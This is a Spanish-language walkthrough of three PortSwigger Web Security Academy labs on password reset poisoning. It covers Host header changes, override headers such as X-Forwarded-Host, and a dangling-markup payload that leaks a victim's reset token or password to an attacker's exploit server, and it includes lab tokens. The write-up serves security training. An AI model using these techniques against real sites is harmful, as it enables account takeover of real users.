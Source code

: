 # Password reset poisoning Laboratories

```mermaid
flowchart 

   classDef green color:#022e1f,fill:#00f500;
   classDef red color:#022e1f,fill:#f11111;
   classDef white color:#022e1f,fill:#fff;
   classDef black color:#fff,fill:#000;

    A[Password reset poisoining]:::black-->B[forgot password]
    A-->|No user or mail victim|E{Not Reset poisoning}:::red
    B-->|Return token|C[change host for burpcollaborator and change name to victim]
    B-->|Without token and satinize dom|D[via dangling markup]
    C-->F[view log]
    F-->|Return token|G[change token victim]
    G-->H[restore password victim]:::green
    F-->|Not accept change host|I[add second host Poisoning middleware]
    I-->F
    D-->J[add exploit with url exploit server in the port position]
    J-->K[log and view password]
    K-->H
    
    
```

This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account.

You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

- The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account.

1. necesitamos un usuario con cuenta y propio. En este caso wiener

2. Restablecemos la contraseña de wiener y nos devuelve una url de reseteo de contraseña

![](assets/2022-07-11-10-26-29.png)

```html
https://aaaa/forgot-password?temp-forgot-password-token=GCWdQObfKJqEMLZu477N9Xsuq5cu9fEq
```
3. Ponemos una contraseña que queramos
   

4. Vamos a la peticion post forgot-password, hay que tener cuidado porque me aparecen 2. La que vale es la que no tiene el token.

Cambiamos el host por otro cualquiera y vamos al servidor de explotación

![](assets/2022-07-11-18-06-09.png)

5. Miramos que aparece el aaaa justo delante del host

![](assets/2022-07-11-18-06-48.png)

6. Vamos a burp repeater y cambiamos el host al de nuestro collaborator y el nombre a carlos que es el que nos piden

7. Vaya a su servidor de explotación y abra el registro de acceso. Verá una solicitud GET /forgot-password con el temp-forgot-password-tokenparámetro que contiene el token de restablecimiento de contraseña de Carlos. Tome nota de esta ficha.

8rJonZpH98wLdG6l40OXqrJHamiKZB3v

![](assets/2022-07-11-18-20-00.png)

8. Cogemos la url de restablecimiento del correo del punto 2. y sustituir el token.
https://0ae2006b0354456ec0c1537600d50042.web-security-academy.net/forgot-password?temp-forgot-password-token=NaZhJ4oRUmyXaOByzuSDv02KQVfZsa4L


https://0ae2006b0354456ec0c1537600d50042.web-security-academy.net/forgot-password?temp-forgot-password-token=8rJonZpH98wLdG6l40OXqrJHamiKZB3v


![](assets/2022-07-11-18-20-53.png)

## Lab: Password reset poisoning via middleware

This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

En este caso no se puede hacer con el mismo host.. habría que probar

Inject host override headers

-   X-Forwarded-Host
-   X-Host
-   X-Forwarded-Server
-   X-HTTP-Host-Override
-   Forwarded

Es igual que el de antes

1. mandamos peticion de restablecimiento
2. capturasmos ese post
3. Este no podemos hacerlo mediante cambio de host porque está capado. Usamos x-forwarded-host y enviamos el servidor de explotacion y el cambio de nombre.

![](assets/2022-07-11-18-31-43.png)

4. Miramos en el log

![](assets/2022-07-11-18-31-26.png)

Cambiamos nuestra url de cambio de password vista en el punto 1 y añadimos el token wpwcdnsIEMktUSyK6BGBXy6tkX3JTwAx

https://0afc0050039b9ddec0cf6f3200d70039.web-security-academy.net/forgot-password?temp-forgot-password-token=wpwcdnsIEMktUSyK6BGBXy6tkX3JTwAx

![](assets/2022-07-11-18-34-40.png)

## Lab: Password reset poisoning via dangling markup

This lab is vulnerable to password reset poisoning via dangling markup. To solve the lab, log in to Carlos's account.

You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.


Este tipo de ejercicios también es facil. En principio cuando hacemos la peticion de restablecimiento no nos devuelve un token por lo que por ese sitio no podemos ir.

![](assets/2022-07-11-18-56-59.png)

En el cliente de correo electrónico, observe que tiene la opción de ver cada correo electrónico como HTML sin procesar. A diferencia de la versión renderizada del correo electrónico, este no parece estar desinfectado de ninguna manera.

Podemos observar que hace un satinize dom por lo que deberíamos de obtener la petición sin procesar

![](assets/2022-07-11-19-00-00.png)

En el forgot pasword vemos que si cambiamos la url no funciona 

![](assets/2022-07-11-19-02-36.png)

En los apuntes nos dicen que una forma de poder sobrepasar esto es poniendole un puerto, ponemos una cadena aleatoria para ver si funciona y luego poder usar cualquier cosa

![](assets/2022-07-11-19-04-06.png)

Miramos el raw de la petición en el servidor de correos electronicos para ver el correo antes de ser procesado

```html
Sent:     2022-07-11 17:03:24 +0000
From:     no-reply@0ac9001304efba88c04e36db00330093.web-security-academy.net
To:       wiener@exploit-0a75006f043cba5bc0b836ec01ff00e9.web-security-academy.net
Subject:  Account recovery

<p>Hello!</p><p>Please <a href='https://0ac9001304efba88c04e36db00330093.web-security-academy.net:adafdfa/login'>click here</a> to login with your new password: A0qMktlQf0</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>

```
Aquí lo importante es lo siguiente

```html
<!--A partir del puerto hay que ver lo que pone. -->
https://0ac9001304efba88c04e36db00330093.web-security-academy.net:adafdfa/login'>click here</
```
La idea es cerrar y poner en el puerto lo que nosotros necesitamos.

```html
'<a href="//your-exploit-server-id.web-security-academy.net/?


exploit-0a75006f043cba5bc0b836ec01ff00e9.web-security-academy.net


'<a href="//exploit-0a75006f043cba5bc0b836ec01ff00e9.web-security-academy.net/?
```
Cambiamos el nombre también a carlos

![](assets/2022-07-11-19-09-33.png)

Si hubiesemos hecho esto con wineer iría a correos además de al log, en este caso hemos puesto directamente carlos, así que vamos al log

![](assets/2022-07-11-19-14-06.png)

BcLTY5O8rx

![](assets/2022-07-11-19-15-26.png)